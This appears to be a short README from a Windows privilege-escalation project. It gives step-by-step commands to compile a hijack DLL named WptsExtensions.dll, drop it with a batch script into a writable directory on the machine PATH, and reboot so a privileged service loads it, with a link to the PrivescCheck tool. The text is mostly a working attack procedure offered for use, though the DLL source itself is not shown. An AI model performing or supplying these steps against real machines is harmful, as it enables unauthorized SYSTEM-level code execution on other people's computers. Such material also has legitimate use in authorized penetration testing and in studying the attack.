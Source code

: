 - Load x64 visual studio environnement variables:  
```
C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat
```
  
- Go inside your source dir and run (BUILD MANUALLY to avoid unwanted dependencies):  
```
cl /LD /MT /EHa dllmain.cpp /Fe:WptsExtensions.dll
```
  
- Update bat script path:  
```
const TCHAR script[] = TEXT("C:\\Python27\\script.bat"):  
```
  
- Drop the DLL and script.bat in your writable directory (from the machine PATH)
```
powershell -Command "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"
```
  
- Reboot  
  
https://github.com/itm4n/PrivescCheck